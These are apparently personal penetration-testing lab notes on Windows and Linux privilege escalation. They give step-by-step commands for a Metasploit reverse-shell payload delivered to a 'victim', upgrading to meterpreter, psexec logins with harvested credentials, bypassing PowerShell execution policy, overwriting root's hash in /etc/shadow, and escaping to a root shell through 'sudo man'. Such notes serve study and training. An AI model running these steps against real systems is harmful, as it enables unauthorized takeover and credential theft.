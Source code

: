 
## Windows Privilege Escalation 


- PrivscCheck is a script that enumerate common Windows configuration issues that can be leveraged for local privilige escalation. It also gathers info that is usefull for exploitation or post exploitation: 
	- https://github.com/itm4n/PrivescCheck 

----

web_delivery module (`show info`)
- set target to powershell:` set target PSH\ (Binary`) 
- `set payload windows/shell/reverse_tcp `
- `set PSH-EncodedCommand false ` (we do not want it to encrypt with base 64)
- copy the powershell code provided 
  
- paste the code in the CMD session on victim system 
this will give you access to target system through command shell session. 
  
- migrate this session to meterpreter session: 
	- `search shell_to_meterpreter` module 
	- set lhost kali 
	- set lport (make sure its not the same as the existing shell session)
	- set session to shell session 
	- show advanced: 
		pwd

**powershell -ep bypass .\script.ps1** 
Hiermee wordt het uitvoeringsbeleid tijdelijk omzeild voor de huidige sessie, zodat het script kan worden uitgevoerd zonder problemen met de uitvoeringsbeleidsinstellingen.**


**Privilege escalation:** 
after migrating to a more stable process such as explorer you run getprivs to find out what the priviliges are (getprivs)

In meterpreter: 
- `cd C:\\ `
- go to the directory where the Privescheck powershell is stored and open a command shell: `shell` 
	- check github page on how to use the script 
- paste the command in the shell prompt 
- check summary results 


##### How to use the credentials found in Privescheck results?  

![[Pasted image 20230924152458.png]]
psexec authenticates on target system via SMB, we are not exploiting the system but only authenticating with legit credentials 

login on target system with psexec.py:
- `psexec.py Administrator@target_ip (`
- command shell session
	- `whoami` 
	- `net user `
	- `whoami /priv `

search in cmd: `dir /s *flag*` searches in current folder and sub folders.
cat in CMD is type 

Method 2 is with meterpreter session 
- search psexec 
- use`` exploit/windows/smb/psexec ``
- set lport that does not conflict with current sessions 
- set smb-password and smb-username with found credentials 

















## Linux Privilege escalation 

Linux priviliges: LinEnum 
Simple bash script that automates common Linux local enumeration check in addition identifying privilege escalation vulnerabilities. 
-> https://github.com/rebootuser/LinEnum 

---

##### Weak permissions 
CMD: 
	``whoami` 
	`cat /etc/passwd`
	`cat /etc/group `
	`groups student

find file that can be usefull in elevating privileges 
 
**`find / -not -type l -perm -o+w`**  

- . `find`: This is the command itself, used to search for files and directories.
- . `/`: This is the starting directory for the search. In this case, it's the root directory, so the command will search the entire file system.
- . `-not`: It means "not."
- . `-type l`: This part of the command specifies the type of file to search for. `-type l` looks for symbolic links (symlinks). Symlinks are files that point to another file or directory.
- . `-perm -o+w`: This part of the command specifies the permissions criteria. `-perm` is used to search for files based on their permissions, and `-o+w` looks for files that are writable by someone other than the owner.


/etc/shadow stores passwords and should only be viewed by the root user. 
cat out the content of the file 
we have access to the password files but we can only see the hashes. 
so this means that we have to replace the password with a hashed password (this way we can have access to the root user)

1. Confirm that you have access to the shadow file: `ls -al /etc/shadow `
   `cat /etc/shadow`
2. generate password you can replace: `openssl passwd -1 -salt abc youhavebeenhacked`
3. copy hashed password and replace in shadow file: `vim` `/etc/shadow `
   remove the * and paste the new password 
4. switch to the root account: `su` 
5. enter password of root user account with the value you set 


##### Sudo Privileges 

`cat /etc/passwd `
`sudo -l `(list of commands you can run as the user)

 
 /usr/bin/man can be exploited if misconfigured with sudo priviliges: 
 unprivileged can run this binary with sudo priviliges (root priviliges) without root password/  -- bypassing permissions & privileges
 
 man utility can allow users to spawn a bash session from within the utility, how: 

  try to run with sudo privliges:
  -  `sudo man ls `  (it should not ask for password)
  - we can spawn a bash session with: 
  `  !/bin/bash `
because we are running the man binary with pseudo priviliges, we are able to execute whatever, from the man binary. 




